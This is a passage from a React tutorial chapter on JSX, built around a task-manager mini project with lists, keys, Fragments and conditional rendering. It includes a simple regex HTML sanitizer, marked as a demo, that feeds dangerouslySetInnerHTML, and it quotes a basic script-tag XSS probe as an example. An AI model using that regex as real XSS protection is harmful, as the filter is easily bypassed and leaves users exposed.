        cursor: 'pointer',
        backgroundColor: isActive ? '#f0f7ff' : '#fff',
        transition: 'all 0.2s',
      }}
    >
      <h3 style={{ margin: '0 0 4px', fontSize: '14px' }}>{example.title}</h3>
      <code style={{ fontSize: '12px', color: '#333' }}>{`{${example.expression}}`}</code>
      {isActive && (
        <p style={{ margin: '8px 0 0', fontSize: '12px', color: '#555' }}>
          {example.description}
        </p>
      )}
    </div>
  );
}

function App() {
  const [activeId, setActiveId] = useState(null);

  const userName = 'Arjun';
  const name = 'React';
  const price = 100;
  const isActive = true;

  return (
    <div style={{ padding: '20px', fontFamily: 'sans-serif', maxWidth: '600px' }}>
      <h1>JSX Expression Playground</h1>
      <p>Click a card to learn about each JSX expression type</p>

      <div style={{ display: 'grid', gridTemplateColumns: '1fr 1fr', gap: '12px' }}>
        {EXAMPLES.map(example => (
          <ExpressionCard
            key={example.id}
            example={example}
            isActive={activeId === example.id}
            onClick={() => setActiveId(id => id === example.id ? null : example.id)}
          />
        ))}
      </div>

      <div style={{ marginTop: '24px', backgroundColor: '#f8fafc', padding: '16px', borderRadius: '8px' }}>
        <h3>Live Demo Values:</h3>
        <table style={{ width: '100%', borderCollapse: 'collapse', fontSize: '14px' }}>
          <tbody>
            <tr><td>userName</td><td>→</td><td>{userName}</td></tr>
            <tr><td>price * 1.18</td><td>→</td><td>{price * 1.18}</td></tr>
            <tr><td>isActive ? "Active" : "Inactive"</td><td>→</td><td>{isActive ? 'Active' : 'Inactive'}</td></tr>
            <tr><td>name.toUpperCase()</td><td>→</td><td>{name.toUpperCase()}</td></tr>
            <tr><td>{"`Hello, ${name}!`"}</td><td>→</td><td>{`Hello, ${name}!`}</td></tr>
          </tbody>
        </table>
      </div>
    </div>
  );
}

export default App;
```

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 🚀 Mini Project

<a id="-mini-project"></a>

### Dynamic List Renderer

---

### Problem Statement

Build a **Dynamic List Renderer** — an interactive React app that demonstrates all JSX concepts from this chapter in one cohesive project: list rendering with keys, conditional rendering patterns, Fragments, filtering, and safe HTML rendering.

---

### Features

- ✅ Render a list of tasks with `.map()` and stable keys
- ✅ Filter tasks by status (All / Active / Completed)
- ✅ Add new tasks (dynamic list — demonstrates why key=index is bad)
- ✅ Mark tasks complete/incomplete (toggle state)
- ✅ Delete tasks (demonstrates key-based reconciliation)
- ✅ Show task descriptions with `dangerouslySetInnerHTML` + DOMPurify
- ✅ Conditional rendering: empty state, count display, zero-bug fix
- ✅ Fragments for clean DOM structure

---

### Architecture



---

### Folder Structure

```
src/
├── components/
│   ├── TaskInput.jsx
│   ├── FilterBar.jsx
│   ├── TaskList.jsx
│   ├── TaskItem.jsx
│   ├── EmptyState.jsx
│   └── TaskStats.jsx
├── utils/
│   └── sanitize.js
├── App.jsx
└── main.jsx
```

---

### Implementation

#### utils/sanitize.js

```javascript
// src/utils/sanitize.js
// In real project: import DOMPurify from 'dompurify'
// For this demo, simple escaper (install dompurify in real project)

export function sanitizeHTML(html) {
  // Simple sanitizer for demo — use DOMPurify in production!
  return html
    .replace(/<script\b[^<]*(?:(?!<\/script>)<[^<]*)*<\/script>/gi, '')
    .replace(/on\w+\s*=/gi, 'data-removed=')
    .replace(/<iframe/gi, '<span')
    .replace(/<\/iframe>/gi, '</span>');
  // In production: return DOMPurify.sanitize(html);
}
```

---

#### TaskInput.jsx

```jsx
// src/components/TaskInput.jsx
import { useState } from 'react';

function TaskInput({ onAdd }) {
  const [text, setText] = useState('');

  const handleSubmit = (e) => {
    e.preventDefault();
    if (!text.trim()) return;
    onAdd(text.trim());
    setText('');
  };

  return (
    <form
      onSubmit={handleSubmit}
      style={{ display: 'flex', gap: '8px', marginBottom: '16px' }}
    >
      <input
        type="text"
        value={text}
        onChange={e => setText(e.target.value)}
        placeholder="Add a new task..."
        style={{
          flex: 1,
          padding: '10px 14px',
          borderRadius: '8px',
          border: '1px solid #d1d5db',
          fontSize: '14px',
          outline: 'none',
        }}
      />
      <button
        type="submit"
        disabled={!text.trim()}
        style={{
          padding: '10px 20px',
          backgroundColor: text.trim() ? '#3b82f6' : '#93c5fd',
          color: 'white',
          border: 'none',
          borderRadius: '8px',
          cursor: text.trim() ? 'pointer' : 'not-allowed',
          fontSize: '14px',
          fontWeight: '600',
        }}
      >
        + Add Task
      </button>
    </form>
  );
}

export default TaskInput;
```

---

#### FilterBar.jsx

```jsx
// src/components/FilterBar.jsx
const FILTERS = ['all', 'active', 'completed'];

function FilterBar({ activeFilter, onFilterChange, counts }) {
  return (
    <div style={{ display: 'flex', gap: '6px', marginBottom: '16px' }}>
      {FILTERS.map(filter => {
        const isActive = activeFilter === filter;
        return (
          <button
            key={filter}
            onClick={() => onFilterChange(filter)}
            style={{
              padding: '6px 16px',
              borderRadius: '20px',
              border: `1px solid ${isActive ? '#3b82f6' : '#e5e7eb'}`,
              backgroundColor: isActive ? '#3b82f6' : '#f9fafb',
              color: isActive ? '#fff' : '#374151',
              cursor: 'pointer',
              fontSize: '13px',
              fontWeight: isActive ? '600' : '400',
            }}
          >
            {filter.charAt(0).toUpperCase() + filter.slice(1)}
            {/* ✅ 0-bug fix: only show count if > 0 */}
            {counts[filter] > 0 && (
              <span style={{
                marginLeft: '6px',
                backgroundColor: isActive ? 'rgba(255,255,255,0.3)' : '#e5e7eb',
                padding: '1px 6px',
                borderRadius: '10px',
                fontSize: '11px',
              }}>
                {counts[filter]}
              </span>
            )}
          </button>
        );
      })}
    </div>
  );
}

export default FilterBar;
```

---

#### EmptyState.jsx

```jsx
// src/components/EmptyState.jsx
function EmptyState({ filter }) {
  // Early return pattern — different messages per filter
  if (filter === 'completed') {
    return (
      <div style={{ textAlign: 'center', padding: '40px', color: '#9ca3af' }}>
        <p style={{ fontSize: '32px', margin: '0 0 8px' }}>🎯</p>
        <p style={{ margin: 0 }}>No completed tasks yet. Keep going!</p>
      </div>
    );
  }

  if (filter === 'active') {
    return (
      <div style={{ textAlign: 'center', padding: '40px', color: '#9ca3af' }}>
        <p style={{ fontSize: '32px', margin: '0 0 8px' }}>✨</p>
        <p style={{ margin: 0 }}>All tasks completed! Great work!</p>
      </div>
    );
  }

  return (
    <div style={{ textAlign: 'center', padding: '40px', color: '#9ca3af' }}>
      <p style={{ fontSize: '32px', margin: '0 0 8px' }}>📝</p>
      <p style={{ margin: 0 }}>No tasks yet. Add your first task above!</p>
    </div>
  );
}

export default EmptyState;
```

---

#### TaskItem.jsx

```jsx
// src/components/TaskItem.jsx
import { Fragment } from 'react';
import { sanitizeHTML } from '../utils/sanitize';

function TaskItem({ task, onToggle, onDelete }) {
  // Each task renders two elements (main row + description row)
  // Fragment groups them without extra DOM node — valid in <ul>
  return (
    <Fragment>
      <li style={{
        display: 'flex',
        alignItems: 'center',
        gap: '12px',
        padding: '12px 16px',
        backgroundColor: '#fff',
        borderRadius: '8px',
        border: '1px solid #e5e7eb',
        marginBottom: '8px',
        transition: 'all 0.2s',
        opacity: task.completed ? 0.7 : 1,
      }}>
        {/* Checkbox */}
        <input
          type="checkbox"
          checked={task.completed}
          onChange={() => onToggle(task.id)}
          style={{ width: '18px', height: '18px', cursor: 'pointer' }}
        />

        {/* Task text */}
        <span style={{
          flex: 1,
          fontSize: '14px',
          color: '#374151',
          textDecoration: task.completed ? 'line-through' : 'none',
        }}>
          {task.text}
        </span>

        {/* Status badge */}
        <span style={{
          padding: '2px 10px',
          borderRadius: '12px',
          fontSize: '11px',
          backgroundColor: task.completed ? '#dcfce7' : '#fef9c3',
          color: task.completed ? '#166534' : '#854d0e',
        }}>
          {task.completed ? 'Done' : 'Active'}
        </span>

        {/* Delete button */}
        <button
          onClick={() => onDelete(task.id)}
          style={{
            background: 'none',
            border: 'none',
            cursor: 'pointer',
            color: '#ef4444',
            fontSize: '18px',
            padding: '2px 6px',
            borderRadius: '4px',
          }}
          aria-label={`Delete task: ${task.text}`}
        >
          ×
        </button>
      </li>

      {/* Description row — rendered as separate Fragment child */}
      {task.description && (
        <li style={{
          listStyle: 'none',
          padding: '0 16px 8px 46px',
          fontSize: '12px',
          color: '#6b7280',
        }}>
          {/* ✅ Safe HTML rendering with sanitization */}
          <span
            dangerouslySetInnerHTML={{
              __html: sanitizeHTML(task.description)
            }}
          />
        </li>
      )}
    </Fragment>
  );
}

export default TaskItem;
```

---

#### TaskStats.jsx

```jsx
// src/components/TaskStats.jsx
function TaskStats({ total, completed, active }) {
  return (
    <div style={{
      display: 'flex',
      gap: '12px',
      padding: '12px 16px',
      backgroundColor: '#f8fafc',
      borderRadius: '8px',
      marginBottom: '16px',
      fontSize: '13px',
    }}>
      {/* ✅ 0-bug fix: use ternary to avoid rendering 0 incorrectly */}
      <span>
        📋 Total: <strong>{total}</strong>
      </span>
      <span>
        {/* active count — safe because we want to show 0 here */}
        🔵 Active: <strong>{active}</strong>
      </span>
      <span>
        {/* ✅ Only show "All done!" message when completed > 0 AND equals total */}
        ✅ Done: <strong>{completed}</strong>
        {completed > 0 && completed === total && (
          <span style={{ marginLeft: '8px', color: '#22c55e' }}>🎉 All done!</span>
        )}
      </span>
    </div>
  );
}

export default TaskStats;
```

---

#### TaskList.jsx

```jsx
// src/components/TaskList.jsx
import TaskItem from './TaskItem';
import EmptyState from './EmptyState';

function TaskList({ tasks, filter, onToggle, onDelete }) {
  // ✅ Conditional render: empty state
  if (tasks.length === 0) {
    return <EmptyState filter={filter} />;
  }

  return (
    <ul style={{ listStyle: 'none', padding: 0, margin: 0 }}>
      {tasks.map(task => (
        // ✅ Stable key — using task.id (UUID generated at creation)
        // NOT index — tasks can be deleted/reordered
        <TaskItem
          key={task.id}
          task={task}
          onToggle={onToggle}
          onDelete={onDelete}
        />
      ))}
    </ul>
  );
}

export default TaskList;
```

---

#### App.jsx

```jsx
// src/App.jsx
import { useState } from 'react';
import TaskInput from './components/TaskInput';
import FilterBar from './components/FilterBar';
import TaskList from './components/TaskList';
import TaskStats from './components/TaskStats';

// Generate simple unique IDs (use uuid in production)
let nextId = 1;
const generateId = () => `task-${nextId++}-${Date.now()}`;

const INITIAL_TASKS = [
  {
    id: generateId(),
    text: 'Learn React JSX rules',
    description: 'Study <strong>className</strong>, htmlFor, self-closing tags',
    completed: true,
  },
  {
    id: generateId(),
    text: 'Understand Virtual DOM',
    description: 'Learn about <em>diffing</em> and reconciliation',
    completed: true,
  },
  {
    id: generateId(),
    text: 'Master conditional rendering',
    description: 'Ternary, &&, early return, switch patterns',
    completed: false,
  },
  {
    id: generateId(),
    text: 'Practice list rendering with keys',
    description: 'Never use index as key for dynamic lists',
    completed: false,
  },
];

function App() {
  const [tasks, setTasks] = useState(INITIAL_TASKS);
  const [filter, setFilter] = useState('all');

  // Add task — new ID generated at creation (stable, not index)
  const addTask = (text) => {
    const newTask = {
      id: generateId(),  // ✅ Stable ID generated once at creation
      text,
      description: '',
      completed: false,
    };
    setTasks(prev => [...prev, newTask]);
  };

  // Toggle completion
  const toggleTask = (id) => {
    setTasks(prev =>
      prev.map(task =>
        task.id === id ? { ...task, completed: !task.completed } : task
      )
    );
  };

  // Delete task
  const deleteTask = (id) => {
    setTasks(prev => prev.filter(task => task.id !== id));
  };

  // Derive filtered tasks (computed from state — declarative!)
  const filteredTasks = tasks.filter(task => {
    if (filter === 'active') return !task.completed;
    if (filter === 'completed') return task.completed;
    return true; // 'all'
  });

  // Counts for FilterBar — derived, not stored as state
  const counts = {
    all: tasks.length,
    active: tasks.filter(t => !t.completed).length,
    completed: tasks.filter(t => t.completed).length,
  };

  return (
    <div style={{
      minHeight: '100vh',
      backgroundColor: '#f3f4f6',
      padding: '40px 20px',
      fontFamily: '-apple-system, BlinkMacSystemFont, "Segoe UI", sans-serif',
    }}>
      <div style={{
        maxWidth: '600px',
        margin: '0 auto',
        backgroundColor: '#ffffff',
        borderRadius: '16px',
        padding: '32px',
        boxShadow: '0 4px 24px rgba(0,0,0,0.08)',
      }}>
        <h1 style={{ margin: '0 0 8px', fontSize: '24px', color: '#111827' }}>
          📝 Task Manager
        </h1>
        <p style={{ margin: '0 0 24px', color: '#6b7280', fontSize: '14px' }}>
          JSX Concepts Demo: lists, keys, conditional rendering, Fragments
        </p>

        <TaskInput onAdd={addTask} />

        {/* ✅ TaskStats — demonstrates 0-bug fix */}
        <TaskStats
          total={tasks.length}
          completed={counts.completed}
          active={counts.active}
        />

        {/* ✅ FilterBar — demonstrates conditional class/style */}
        <FilterBar
          activeFilter={filter}
          onFilterChange={setFilter}
          counts={counts}
        />

        {/* ✅ TaskList — demonstrates .map(), keys, Fragment, conditional render */}
        <TaskList
          tasks={filteredTasks}
          filter={filter}
          onToggle={toggleTask}
          onDelete={deleteTask}
        />

        {/* ✅ Footer — demonstrates && with 0-bug fix */}
        {tasks.length > 0 && (
          <div style={{
            marginTop: '16px',
            paddingTop: '16px',
            borderTop: '1px solid #e5e7eb',
            fontSize: '12px',
            color: '#9ca3af',
            textAlign: 'center',
          }}>
            {counts.completed > 0
              ? `${counts.completed} of ${tasks.length} tasks completed`
              : 'No tasks completed yet'}
          </div>
        )}
      </div>

      {/* JSX concepts legend */}
      <div style={{
        maxWidth: '600px',
        margin: '16px auto 0',
        backgroundColor: '#eff6ff',
        borderRadius: '12px',
        padding: '16px',
        fontSize: '12px',
        color: '#1e40af',
      }}>
        <strong>JSX Concepts in this project:</strong>
        <ul style={{ margin: '8px 0 0', paddingLeft: '20px', lineHeight: '1.8' }}>
          <li>✅ <code>className</code> — all styled elements</li>
          <li>✅ <code>.map()</code> with stable keys — TaskList</li>
          <li>✅ <code>Fragment</code> — TaskItem (multiple elements per list item)</li>
          <li>✅ Conditional rendering (early return) — EmptyState</li>
          <li>✅ <code>&&</code> with 0-bug fix — FilterBar counts, Stats</li>
          <li>✅ <code>dangerouslySetInnerHTML</code> — Task descriptions</li>
          <li>✅ Self-closing tags — all inputs and br tags</li>
          <li>✅ Style as object — all inline styles</li>
          <li>✅ JSX as expression — conditional elements stored in variables</li>
        </ul>
      </div>
    </div>
  );
}

export default App;
```

---

### Interview Discussion Points

1. **Why do TaskItems use `Fragment` instead of a wrapper `<div>`?**
   → Because they're `<li>` elements inside a `<ul>`. Adding a `<div>` inside `<ul>` is invalid HTML. Fragment keeps the DOM structure valid.

2. **How is the `id` generated and why not use index?**
   → ID is generated with `Date.now()` at creation time. Index would change when items are deleted — item at position 0 could be a completely different task after deletion.

3. **Why is `filteredTasks` not stored in state?**
   → It's derived from `tasks` and `filter` state. Storing derived state causes sync bugs. Compute it during render — React re-renders whenever dependencies change.

4. **Where is the 0-bug fix applied?**
   → `FilterBar` counts and `TaskStats` — `count > 0 && <span>` prevents rendering `0` when a filter has zero items.

5. **Why sanitize the HTML descriptions?**
   → Descriptions could contain HTML (formatted text). Without sanitization, a malicious description `<script>alert('xss')</script>` would execute.

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## ⚡ Quick Revision

<a id="-quick-revision"></a>

### Key Definitions

| Term | One-Line Definition |
|------|-------------------|
| **JSX** | Syntax extension compiling to React.createElement() |
| **Babel/SWC** | Compilers that transform JSX to JavaScript |
| **Classic Transform** | JSX → React.createElement(), needs `import React` |
| **New Transform** | JSX → _jsx(), no import needed (React 17+) |
| **Fragment** | Transparent wrapper — groups elements, no DOM node |
| **className** | JSX's `class` — `class` is reserved in JS |
| **htmlFor** | JSX's `for` — `for` is reserved in JS |
| **Expression** | Produces a value — can go in JSX `{}` |
| **Statement** | Performs action — cannot go in JSX `{}` |
| **dangerouslySetInnerHTML** | Sets raw HTML (like innerHTML), bypasses React escaping |
| **DOMPurify** | Library to sanitize HTML and prevent XSS |
| **key prop** | Helps reconciler identify list items across renders |
| **0 rendering bug** | `0 && <X/>` renders "0" because 0 is a number |

---

### JSX Rules Cheatsheet

```
✅ className (not class)
✅ htmlFor (not for)
✅ camelCase events: onClick, onChange, onSubmit
✅ camelCase attributes: tabIndex, maxLength, readOnly
✅ style={{ color: 'red', fontSize: '16px' }} (object, not string)
✅ Self-closing: <input />, <br />, 
✅ Single root element (or Fragment)
✅ Expressions only in {} (not statements)
✅ Comments: {/* comment */}
✅ data-* and aria-* use original case
```

---

### Common Interview Traps

> [!IMPORTANT]
> **Trap 1:** `{count && <Badge />}` when `count` can be `0`
> **Fix:** `{count > 0 && <Badge />}` or `{!!count && <Badge />}`

> [!IMPORTANT]
> **Trap 2:** Arrow function with `{}` without `return`
> `items.map(i => { <li>{i}</li> })` — renders nothing
> **Fix:** `items.map(i => (<li>{i}</li>))`

> [!IMPORTANT]
> **Trap 3:** Using `index` as key for a filterable/sortable list
> State gets mis-assigned after reordering
> **Fix:** Use stable IDs from your data

> [!IMPORTANT]
> **Trap 4:** `dangerouslySetInnerHTML` without sanitization
> **Fix:** Always use `DOMPurify.sanitize()` first

> [!IMPORTANT]
> **Trap 5:** Expecting `key` to be accessible as a prop
> `function Item({ key })` → key is always `undefined`
> **Fix:** Pass the value as a separate prop: `key={id}` + `id={id}`

---

### Quick Reference: What Renders in JSX

```
null        → nothing
undefined   → nothing
false       → nothing
true        → nothing
""          → nothing (empty string)
0           → "0" ❌ (renders as text — common bug!)
NaN         → "NaN" ❌ (renders as text)
42          → "42" ✅
"hello"     → "hello" ✅
<div>       → DOM element ✅
[<li/>, ]   → array of elements ✅
{ obj }     → ❌ Error: Objects not valid as child
```

---

### Revision Bullets

- JSX = syntactic sugar for `React.createElement()` — Babel/SWC compiles it
- New JSX transform (React 17+) eliminates `import React from 'react'` requirement
- JSX is NOT HTML — different attributes, rules, and syntax
- Single root element required — use `<>` Fragment to avoid extra `<div>`
- `<Fragment key={id}>` when mapping Fragments (shorthand `<>` has no key support)
- Only **expressions** (values) go in `{}` — not statements (if, for, const)
- `&&` short-circuit: `0 && x` → renders `0` — ALWAYS use `> 0` or `!!` or ternary
- `null`, `false`, `undefined`, `true` all render **nothing**
- `key` is NOT a prop — pass value separately if needed inside component
- `dangerouslySetInnerHTML={{ __html: sanitizedContent }}` — always sanitize!
- Index as key is only safe for completely static, non-reorderable lists

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 📌 Chapter Summary

<a id="-chapter-summary"></a>

### Most Important Interview Points

1. **JSX compiles to `React.createElement()`** — it is pure syntactic sugar. New transform (React 17+) compiles to `_jsx()` and eliminates the need for `import React`.

2. **JSX is not HTML** — key differences: `className`, `htmlFor`, camelCase events, style as object, required self-closing tags, single root element.

3. **Fragments solve the wrapper div problem** — `<>` for general use, `<Fragment key={id}>` when rendering lists of fragments.

4. **Only expressions in `{}`** — not statements. Use ternary instead of `if`, `.map()` instead of `for`, IIFE or extracted function for `switch`.

5. **The `0` rendering bug** — `{count && <X/>}` renders `"0"` when `count = 0`. Fix: `{count > 0 && <X/>}`. This is the #1 JSX gotcha in interviews.

6. **Key prop rules** — use stable IDs, never `Math.random()`, only use index for completely static lists. `key` is not accessible as a prop inside the component.

7. **`dangerouslySetInnerHTML`** — always sanitize with DOMPurify. Never pass raw user input. The double underscore `__html` is intentional friction.

8. **Arrow function in `.map()`** — `item => { <X/> }` renders nothing. Need `item => (<X/>)` or `item => { return <X/>; }`.

### Key Practical Takeaways

- Use `<>` Fragment by default; switch to explicit `<Fragment key>` only for list mapping
- Derive computed values (filtered lists, counts) during render — don't store derived state
- Generate stable IDs at data **creation** time (not during render)
- Always install DOMPurify when using `dangerouslySetInnerHTML`
- Use early return pattern for guard clauses — cleaner than nested ternaries
- Compute conditional CSS classes with template literals or array `.filter(Boolean).join(' ')`

### Common Mistakes

❌ Using `class` instead of `className`
❌ Using `for` instead of `htmlFor`
❌ Forgetting to close self-closing tags (`<input>` → `<input />`)
❌ Passing inline style as a string (`style="color: red"`)
❌ Using `{count && <X/>}` when count can be `0`
❌ Forgetting `return` inside map callback with curly braces
❌ Using `Math.random()` as key
❌ Using `dangerouslySetInnerHTML` without sanitization
❌ Trying to use `if`/`for` directly inside JSX
❌ Rendering a plain JS object as a child (need `.property` or `JSON.stringify`)

---

[⬅ Previous Chapter](#8-introduction-to-react) | [📖 Main Index](#main-index) | [Next Chapter ➡](#10-components-the-building-blocks)

---

*Chapter 9 Complete — JSX: JavaScript XML | Part E*